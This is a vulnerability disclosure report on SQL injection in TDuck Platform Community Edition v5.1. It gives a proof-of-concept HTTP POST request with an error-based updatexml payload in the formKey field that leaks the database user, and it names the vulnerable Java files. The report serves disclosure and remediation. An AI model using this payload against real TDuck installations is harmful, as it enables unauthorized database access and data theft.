



### 💥 Vulnerability Report : SQL Injection in **TDuck Platform v5.1**

------

**1. Product:**

- **Name:** TDuck Platform
- **Version:** Community Edition v5.1
- **Repository:** https://gitee.com/TDuckApp/tduck-platform  /  https://github.com/TDuckCloud/tduck-platform

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /user/form/data/download/file`

------

**4. Attack Vector(s):**

An u attacker can exploit the `formKey` parameter in the `/user/form/data/download/file` endpoint by injecting malicious SQL expressions. The backend uses the parameter in dynamic SQL construction without proper input sanitization or parameterized queries, leading to SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST /user/form/data/download/file HTTP/1.1
Host: xxx
Content-Type: application/json
token: <valid_token>
Content-Length: 73

{"formKey": "' and updatexml(1,concat(0x7e,(select user()),0x7e),1)-- -"}
```

If vulnerable, the response will contain an error message such as:



This confirms that the SQL injection is successful and discloses database user information.


**6. Vulnerable Code Reference**

​	src/main/java/com/tduck/cloud/form/mapper/UserFormDataMapper.java



​	src/main/java/com/tduck/cloud/form/service/data/FormDataMysqlService.java



​	This code concatenates the `formKey` parameter received from the client (`request.getFormKey()`) directly into an SQL statement without any sanitization or use of parameterized queries. As a result, an attacker can inject arbitrary SQL code through the `formKey` parameter, leading to a SQL Injection vulnerability.


------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- [Gitee Project Link](https://gitee.com/TDuckApp/tduck-platform)
- 